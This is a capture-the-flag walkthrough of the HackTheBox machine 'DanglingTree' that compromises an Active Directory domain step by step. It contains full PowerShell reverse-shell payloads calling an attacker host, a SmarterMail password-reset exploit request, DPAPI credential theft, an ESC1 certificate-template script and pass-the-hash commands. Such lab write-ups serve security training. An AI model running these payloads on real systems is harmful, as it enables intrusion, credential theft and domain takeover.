## Introduction
Welcome to my writeup for **DanglingTree**,an [Medium] difficulty machine on HackTheBox. This guide is for educational purposes only. 


Nmap scani ile baslayaq 
```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec Microsoft Windows Kerberos
135/tcp  open  msrpc        Microsoft Windows RPC
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP
443/tcp  open  ssl/http     Microsoft IIS httpd 10.0 (CA: danglingtree-DC-CA)
445/tcp  open  microsoft-ds Microsoft Windows SMB
636/tcp  open  ssl/ldap     Microsoft Windows LDAP SSL
3268/tcp open  ldap         Global Catalog LDAP
3269/tcp open  ssl/ldap     Global Catalog LDAP SSL
3389/tcp open  ms-wbt-server Remote Desktop
6600/tcp open  ssl/mshvlm   Windows Admin Center
```


From the Nmap scan results, we can identify the domain name (`danglingtree.htb`) and the Domain Controller hostname (`dc.danglingtree.htb`):
```text
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.danglingtree.htb, DNS:danglingtree.htb, DNS:DANGLINGTREE
| Not valid before: 2026-08-03T16:32:53
|_Not valid after:  2106-08-03T16:32:53
|_ssl-date: TLS randomness does not represent time
```
To ensure proper resolution and interaction with the Active Directory environment, we need to add the target IP and these domain names to our /etc/hosts file:

```bash
echo "TARGET_IP dc.danglingtree.htb danglingtree.htb dc " | sudo tee -a /etc/hosts
```

# SMB Enumeration
Next, we enumerate the SMB shares available on the target:
```bash
smbclient -N  -L  \\\\TARGET_IP\\
```
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

```

Checking for anonymous/null access to the IT share:
```bash
smbclient -N \\\\TARGET_IP\\IT
```
Once connected, we navigate to the appropriate directory and download the assessment file:

```bash
cd Security
get DanglingTree_RoE_Assessment.pdf
```

Inside this PDF file, we discover credentials:


Using the credentials obtained previously for the user anderson.w, I logged into the Windows Admin Center running on port 6600


After enabling Intercept in Burp Suite, I clicked on the gateway link and intercepted the corresponding HTTP request:


# anderson -> svc_mail
This vulnerability allowed for **Command Injection**, where modifying the script parameter executed a PowerShell command, leading to **Remote Code Execution (RCE)** as the user `anderson.w`.

First, we encode our PowerShell reverse shell payload into UTF-16LE and convert it to Base64:
```bash
echo -n '$client = New-Object System.Net.Sockets.TCPClient("YOUR_IP",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t UTF-16LE | base64 -w0 
```
Next, set up a Netcat listener on our attack host:
```bash
nc -nclp 4444
```

By assigning the generated Base64 payload to the script parameter within the intercepted request ("script": "powershell -enc <base64_payload>"), we forward the request and successfully capture an interactive reverse shell as anderson.w on our listener.

"script" : powershell -enc base64 


During enumeration of the C:\ directory, we discover a non-default application folder named SmarterMail.
```
    Directory: C:\

Mode                 LastWriteTime         Length Name                                            
----                 -------------         ------ ----                                            
d-----         3/25/2026  10:40 PM                inetpub                                         
d-----          4/1/2024  12:02 AM                PerfLogs                                        
d-r---         3/25/2026  11:17 PM                Program Files                                   
d-r---         3/25/2026  11:23 PM                Program Files (x86)                             
d-----          4/4/2026   5:57 PM                Shares                                          
d-----         3/26/2026   1:59 PM                SmarterMail                                     
d-r---         8/16/2026  10:42 AM                Users                                           
d-----          8/4/2026   9:13 PM                Windows
```

 Deep-diving into SmarterMail reveals that it is vulnerable to [CVE-2026-23760](https://github.com/MaxMnMl/smartermail-CVE-2026-23760-poc)running on port 17017. We confirm this port is active locally using ```netstat -ano```.


To interact with the service, we upload chisel to the target host and establish port forwarding:
```bash
./chisel server -p 8000 --reverse
./chisel.exe client YOUR_IP:8000 R:17017:127.0.0.1:17017
```

### Exploit [CVE-2026-23760](https://github.com/MaxMnMl/smartermail-CVE-2026-23760-poc)

Navigating to http://127.0.0.1:17017, we encounter the login interface:


During our enumeration, we identified a system user named **svc_mail**.
Based on the Proof of Concept (PoC) for CVE-2026-23760, we can force a password reset for this account via an unauthenticated or low-privileged API call. 

```
POST /api/v1/auth/force-reset-password HTTP/1.1
Host: 127.0.0.1:17017
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
sec-ch-ua: "Not_A Brand";v="99", "Chromium";v="142"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:17017/interface/root
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 148
Content-Type: application/json

{"IsSysAdmin":"true",
"OldPassword":"watever",
"Username":"svc_mail",
"NewPassword":"NewPassword123!@#",
"ConfirmPassword": "NewPassword123!@#"}
```
>Important Notes:
The request method must be set to POST.
The Content-Type header must be set to application/json.


After executing the request, the password for the svc_mail user is successfully changed, allowing us to log into SmarterMail with administrative privileges.
Following the exploitation path (ATO to RCE):
```
Navigate to Settings -> Volume Mounts.
Create a new volume.
Supply a Base64-encoded reverse shell payload into the command execution field.
```

The encoded reverse shell payload used for the volume mount command:
```bash
echo -n '$client = New-Object System.Net.Sockets.TCPClient("YOUR_IP",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t UTF-16LE | base64 -w0
```

Volume MOunt Command  -->   ``` cmd.exe /c powershell -nop -enc base64 ```


After starting our listener, we mount the newly created volume in SmarterMail to trigger the execution: 
```bash
nc -nvlp 7777
```


# svc_mail -> noah.b

After creating and executing the volume mount command in SmarterMail, we successfully catch a reverse shell as the **svc_mail** user.

During further enumeration, we discovered a .bak domain backup directory containing user data for noah.b, specifically under C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b:
```powershell
cd C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b
ls
```
```
    Directory: C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         3/26/2026   2:19 PM                FileStore                                                            
d-----         3/26/2026   2:19 PM                Mail                                                                 
-a----         3/26/2026   2:20 PM             13 acquaintances.sbin                                                   
-a----         3/26/2026   2:19 PM           5201 folders.json                                                         
-a----         3/26/2026   2:19 PM           7529 settings.json                                                        

```
To extract the cleartext password for **noah.b**, we performed the following steps:
1. Copy the user directory from the backup folder into the active domain users path (\Domains\danglingtree.htb\Users):
```bash
Copy-Item "C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b" "C:\SmarterMail\Domains\danglingtree.htb\Users" -Recurse
ls
```
```
PS C:\SmarterMail\Domains\danglingtree.htb\Users> ls


    Directory: C:\SmarterMail\Domains\danglingtree.htb\Users


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         8/16/2026  12:02 PM                noah.b                                                               
d-----         8/16/2026  11:14 AM                svc_mail                                                             

```
2. Attach the user (noah.b) back through the SmarterMail administration panel:


However, attempting to attach the user directly triggered an error:


To resolve this issue and bypass the error, we manually created an Inbox folder inside the user's mail directory (C:\SmarterMail\Domains\danglingtree.htb\Users\noah.b\Mail):
```bash
mkdir Inbox
```

Once the Inbox folder was in place, the user was successfully attached to the domain. Clicking on the user profile inside SmarterMail revealed the plain-text password for noah.b:


After obtaining the credentials for `noah.b`, we can perform lateral movement or execute commands as this user. To achieve this, we will use the [RunasCs.exe](https://github.com/antonioCoco/RunasCs/releases) tool. We upload the tool to the target host and execute it as follows:
```bash
./RunasCs.exe noah.b 'RiverDragon#Storm25' cmd.exe -d DANGLINGTREE -r YOUR_IP:9999
```
To catch the incoming session, we set up our listener on the attack host
```bash
nc -nvlp 9999
```
By catching the session and pivoting to the `noah.b` user context, we can finally locate and read the **user.txt** flag.


# noah.b -> alex.o
While enumerating the noah.b user session, we checked the Windows DPAPI storage paths to locate cached credentials and their corresponding Masterkeys
```bash
powershell
dir "C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials\" -Force
```
```
 Directory: C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a-hs-         3/27/2026   3:03 PM            490 57FFB67D684C67F09E7153B9C7CC3940                                                                                 
```


```bash
dir "C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\" -Recurse -Force
```
```
Directory: C:\Users\noah.b\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d---s-         3/26/2026   2:23 PM                S-1-5-21-4220238332-57023728-1129110646-1602                         
-a-hs-         3/26/2026   2:23 PM             24 CREDHIST                                                             
-a-hs-         3/26/2026   2:23 PM             76 SYNCHIST                                                             


Directory: C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a-hs-         3/26/2026   2:23 PM            924 BK-DANGLINGTREE                                                      
-a-hs-         3/26/2026   2:23 PM            876 f53fcaba-f057-48e8-8f92-0180d274bf0f                                 
-a-hs-         3/26/2026   2:23 PM             24 Preferred                                                         
```


From the output, we identified:
```Plaintext
Credential File: 57FFB67D684C67F09E7153B9C7CC3940

Masterkey GUID: f53fcaba-f057-48e8-8f92-0180d274bf0f

User SID: S-1-5-21-4220238332-57023728-1129110646-1602
```

To decrypt these DPAPI-protected credentials offline, we need to transfer both the target credential file and its associated Masterkey to our attacker machine.
```
C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials\57FFB67D684C67F09E7153B9C7CC3940
C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602\f53fcaba-f057-48e8-8f92-0180d274bf0f
```

### Offline DPAPI Decryption with Pypykatz
Once the credential and masterkey files are successfully exfiltrated to our attacker machine, we can use pypykatz to decrypt them offline using the known user password (**RiverDragon#Storm25**) and the user's SID (**S-1-5-21-4220238332-57023728-1129110646-1602**).

1. Derive the Masterkey password (DPAPI prekey):
```bash  
 pypykatz dpapi prekey password S-1-5-21-4220238332-57023728-1129110646-1602 'RiverDragon#Storm25' -o prekey_file
```
2. Decrypt the Masterkey file:
```bash
pypykatz dpapi masterkey masterkey_file prekey_file -o decrypted_mk
```
3. Decrypt the credential file using the decrypted masterkey:
```bash
pypykatz dpapi credential decrypted_mk cred_file
```
From the output, we successfully recover stored domain credentials
```

    syntax: plain-text
    width: 500
    height: 100
    width_in_pixels: true
    highlight_brackets: true
    source: |-
      type : DOMAIN_PASSWORD (2)
      last_written : 134191226186021301
      target : Domain:target=PC01.danglingtree.htb
      username : alex.o
      unknown4 : b'S\x00u\x00n\x00s\x00e\x00t\x00M\x00o\x00u\x00n\x00t\x00a\x00i\x00n\x00P\x00e\x00a\x00k\x00@\x002\x000\x002\x005\x00

```

The resulting password string **SunsetMountainPeak@2025** is encoded in UTF-16LE, which reveals the plaintext password for the user **alex.o**

# alex.o -> jake.h

With the newly acquired credentials for the user alex.o (SunsetMountainPeak@2025), we can perform a comprehensive enumeration of the Active Directory environment using BloodHound-Python. This tool collects data regarding domain users, groups, ACLs, and object relationships.

We run the collector from our attack machine against the target domain
```bash
bloodhound-python -u 'alex.o' -p 'SunsetMountainPeak@2025' -ns TARGET_IP -d danglingtree.htb -c all
```

Analyzing Attack Paths in BloodHound
After the collection process completes, we open the BloodHound UI, import the generated JSON files, and search for the alex.o user account to analyze its permissions and potential escalation paths within the domain domain graph.

Inspecting the graph reveals critical rights and relationships associated with alex.o:


As observed in the BloodHound graph, the user alex.o holds specific extended rights over other objects in the domain — specifically, the **ForceChangePassword** right over the user jake.h. This permission allows us to reset or modify another user's password without needing to know their current password.

To exploit this vulnerability and change jake.h's password, we can use NetExec (nxc) from our attack machine:

```bash
nxc smb TARGET_IP -u alex.o -p 'SunsetMountainPeak@2025' -M change-password -o USER=jake.h NEWPASS='NewPassword@123'
```

By executing this command, we successfully overrode the target account's settings and updated the password for jake.h to **NewPassword@123** effectively taking control of the account for further lateral movement within the domain.

Looking up the jake.h user in the BloodHound UI, we can examine their group memberships and identify the 7 groups they belong to:

As seen in the group mapping, jake.h is a member of:
```
USERS@DANGLINGTREE.HTB
REMOTE DESKTOP USERS@DANGLINGTREE.HTB
REMOTE MANAGEMENT USERS@DANGLINGTREE.HTB
DEVOPS_PKI@DANGLINGTREE.HTB
DOMAIN USERS@DANGLINGTREE.HTB
HELPDESK_CERT_SUPPORT@DANGLINGTREE.HTB
TEMPLATE_EDITORS@DANGLINGTREE.HTB
```
Querying AD CS Enrollment Services with bloodyAD
After taking control of the jake.h user account, we can utilize bloodyAD to query specific Active Directory objects. In this case, we query the configuration naming context to inspect the permissions and settings of the Certificate Authority (CA) object (danglingtree-DC-CA):

```bash
bloodyAD --host TARGET_IP -d danglingtree.htb -u jake.h -p 'NewPassword@123' get object "CN=danglingtree-DC-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb"
```
```
certificateTemplates: **RemoteAccessVPN**; EmployeeAuthTemplate; VPNUserTemplate; DirectoryEmailReplication; DomainControllerAuthentication; KerberosAuthentication; EFSRecovery; EFS; DomainController; WebServer; Machine; User; SubCA; Administrator
```

During our enumeration, we discovered a deleted or unlinked certificate template (RemoteAccessVPN). We can rebuild/enable this template and configure it to exploit the ESC1 vulnerability (allowing certificate enrollment with a subject alternative name / custom UPN).

We should set the template to RemoteAccessVPN and then specify the UPN (User Principal Name) of a high-privileged user (like the Administrator) ourselves using Certipy

Re-built RemoteAccessVPN with Vulnerablity   ECS1
```
import ssl, uuid, struct
from ldap3 import Server, Connection, NTLM, Tls, MODIFY_REPLACE

DC = 'TARGET_IP'; DOMAIN = 'danglingtree.htb'
USER = 'jake.h'; PASS = 'NewPassword@123'
TNAME = 'RemoteAccessVPN'

tls = Tls(validate=ssl.CERT_NONE)
srv = Server(DC, port=636, use_ssl=True, tls=tls)
conn = Connection(srv, user=f'{DOMAIN}\\{USER}', password=PASS, authentication=NTLM, auto_bind=True)
print('[+] Bound:', conn.bound)

CONFIG = 'CN=Configuration,DC=danglingtree,DC=htb'
TEMPLATES_DN = f'CN=Certificate Templates,CN=Public Key Services,CN=Services,{CONFIG}'
NEW_DN = f'CN={TNAME},{TEMPLATES_DN}'

# Delete old
conn.delete(NEW_DN)
print('[+] Delete:', conn.result['description'])

# Proper OID - 8 components after base (standard Windows template format)
r = lambda: uuid.uuid4().int % 99999999
new_oid = f'1.3.6.1.4.1.311.21.8.{r()}.{r()}.{r()}.{r()}.{r()}.1.2.1'
print(f'[*] OID: {new_oid}')

one_year  = struct.pack('<q', -315360000000000)
six_weeks = struct.pack('<q', -36288000000000)

attrs = {
    'objectClass':                       ['top', 'pKICertificateTemplate'],
    'cn':                                TNAME,
    'displayName':                       TNAME,
    'flags':                             66048,    # clean: CT_FLAG_IS_DEFAULT|CT_FLAG_PUBLISH_TO_DS
    'revision':                          4,
    'msPKI-Cert-Template-OID':           new_oid,
    'msPKI-Certificate-Application-Policy': '1.3.6.1.5.5.7.3.2',
    'msPKI-Certificate-Name-Flag':       1,        # ESC1
    'msPKI-Enrollment-Flag':             0,
    'msPKI-Minimal-Key-Size':            2048,
    'msPKI-Private-Key-Flag':            16,       # EXPORTABLE only
    'msPKI-RA-Signature':                0,
    'msPKI-Template-Schema-Version':     2,
    'msPKI-Template-Minor-Revision':     1,
    'pKIDefaultCSPs':                    '1,Microsoft RSA SChannel Cryptographic Provider',
    'pKIDefaultKeySpec':                 1,
    'pKIExpirationPeriod':               one_year,
    'pKIExtendedKeyUsage':               '1.3.6.1.5.5.7.3.2',
    'pKIKeyUsage':                       b'\x80',
    'pKIMaxIssuingDepth':                0,
    'pKIOverlapPeriod':                  six_weeks,
}

result = conn.add(NEW_DN, attributes=attrs)
print('[+] Create:', conn.result)
conn.unbind()
```
To grant enrollment rights on the certificate template:
```bash
bloodyAD -d danglingtree.htb -u 'jake.h' -p 'SunsetMountainPeak@2025' -H '10.129.78.89' add genericAll "CN=RemoteAccessVPN,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb" "jake.h"
```
We run this request command to exploit the ESC1 vulnerability. Because we previously gave our user (jake.h) control over the RemoteAccessVPN template, we can abuse it to request a certificate on behalf of the Domain Administrator.
```bash
certipy-ad req -u 'jake.h@danglingtree.htb' -p 'SunsetMountainPeak@2025' -dc-ip '10.129.78.89' -target dc.danglingtree.htb -ca 'danglingtree-DC-CA' -template 'RemoteAccessVPN' -upn 'administrator@danglingtree.htb' -sid S-1-5-21-4220238332-57023728-1129110646-500
```
Next, we authenticate using the generated PFX file to obtain a Kerberos Ticket Granting Ticket (TGT):
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.78.89
```
```
<SNIP>
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@danglingtree.htb': aad3b435b51404eeaad3b435b51404ee:8cacb3a97e460c65d105ca7cd9913925
```

With the Administrator's NTLM hash successfully retrieved, we can execute a remote command shell (e.g., via psexec) against the Domain Controller using Pass-the-Hash:

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py danglingtree.htb/administrator@TARGET_IP -hashes aad3b435b51404eeaad3b435b51404ee:8cacb3a97e460c65d105ca7cd9913925
```


